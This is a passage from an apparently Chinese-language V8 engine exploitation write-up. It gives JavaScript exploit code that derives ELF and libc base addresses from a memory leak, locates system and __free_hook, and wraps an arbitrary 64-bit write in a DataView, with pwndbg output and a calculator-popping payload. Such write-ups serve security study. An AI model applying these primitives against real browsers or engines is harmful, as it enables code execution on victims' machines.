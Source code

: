 ```javascript
var elf_base = leak_constructor_addr - 0xFC8780n;
console.log("[*] elf_base: 0x" + hex(elf_base));
var free_got_addr = elf_base + 0x12AA8B8n;
var free_addr = read64(free_got_addr);
var libc_base = free_addr - 0x9d850n;
console.log("[*] libc_base: 0x" + hex(libc_base));
var system_addr = libc_base + 0x55410n;
console.log("[*] system_addr: 0x" + hex(system_addr));
var free_hook_addr = libc_base + 0x1eeb28n;
console.log("[*] free_hook_addr: 0x" + hex(free_hook_addr));
```

最后将__free_hook地址上填充system地址，释放一个填充“/usr/bin/gnome-calculator"数组对象，就可以弹出计算器。而在实际过程中发现write64写入会报错，需要利用DataView对象封装另一个任意地址写。

```javascript
var data_buf = new ArrayBuffer(8);
var data_view = new DataView(data_buf);
var backing_store_addr = addressOf(data_buf) + 0x20n;

function dataview_write64(addr, data)
{
	write64(backing_store_addr, addr);
	data_view.setFloat64(0, i2f(data), true);
}
```

gdb调试可看到：

```c
pwndbg> job 0x1a568c810929  // data_view
0x1a568c810929: [JSDataView]
 - map: 0x04dd372c1719 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x1dfa5aa4aff9 <Object map = 0x4dd372c1769>
 - elements: 0x29b23ce40c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - buffer =0x1a568c8108e9 <ArrayBuffer map = 0x4dd372c21b9>
 - byte_offset: 0
 - byte_length: 8
 - properties: 0x29b23ce40c71 <FixedArray[0]> {}
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
 }
pwndbg> job 0x1a568c8108e9  // data_buf
0x1a568c8108e9: [JSArrayBuffer]
 - map: 0x04dd372c21b9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x1dfa5aa4e981 <Object map = 0x4dd372c2209>
 - elements: 0x29b23ce40c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0x5622bb25a520 // 存储数据的指针
 - byte_length: 8
 - detachable
 - properties: 0x29b23ce40c71 <FixedArray[0]> {}
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
 }
```
